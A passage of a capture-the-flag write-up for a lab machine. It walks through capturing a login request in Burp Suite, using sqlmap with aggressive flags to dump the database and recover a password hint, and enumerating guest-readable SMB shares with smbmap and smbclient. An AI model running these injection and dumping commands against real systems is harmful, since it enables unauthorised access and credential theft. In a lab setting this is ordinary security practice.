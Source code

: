 ### Using SQLMap (The easy way (in my opinion))

SQLMap has a wonderful feature that lets you import a web request into it, so I will be capturing the request using Burpsuite and then importing it into sqlmap.

1. Setup the burp proxy in foxyproxy (127.0.0.1 : 8080)
2. Capture a login attempt in burp, right click and click "Copy to file", save it as loginintercept.txt or similar
3. In a terminal run sqlmap, as this is a CTF i'm using some aggressive flags that you wouldn't necessarily use in a real life environment so bear that in mind.

The command I used was `sqlmap -r loginintercept.txt --level=5 --risk=3 --dump-all` and it didn't work.

After a bit of research and reading I added the --no-cast flag and that started working

`sqlmap -r loginintercept.txt --level=5 --risk=3 --dump-all --no-cast`

Unfortunately, this dump took ages but we got some useful information out of it. We got a user, a password hash, and this line of information is very interesting.

`[13:53:18] [INFO] retrieved: My linux username is my first name, and password uses best64`

After a google search I discovered that best64 is a hashcat rule set. This made me think that it is unlikely to use a wordlist such as rockyou.txt on this password as that would take far too long for a CTF. It was at this point I remembered that we have a SMB share avaiable to us so let's go and have a look at that and hopefully there will be a wordlist.

# Ports 139 and 445 (SMB)

First I ran SMBMap against the victim to get the shares quickly and easily

`smbmap -H 10.10.199.116 -u guest`

I use the username of "guest" as nmap told us that guest authentication was allowed
```
[+] Guest session   	IP: 10.10.199.116:445	Name: hogwartz-castle.thm                               
    Disk                                                Permissions	Comment
	----                                                -----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	sambashare                                        	READ ONLY	Harry's Important Files
	IPC$                                              	NO ACCESS	IPC Service (hogwartz-castle server (Samba, Ubuntu))
```

We have read only access to one of the shares so lets use smbclient to access that

`smbclient \\\\10.10.199.116\\sambashare -U guest`

Running `ls` gives us the following listing

```
  .                                   D        0  Wed Nov 25 20:19:20 2020
  ..                                  D        0  Wed Nov 25 19:57:55 2020
  spellnames.txt                      N      874  Wed Nov 25 20:06:32 2020
  .notes.txt                          H      147  Wed Nov 25 20:19:19 2020
```
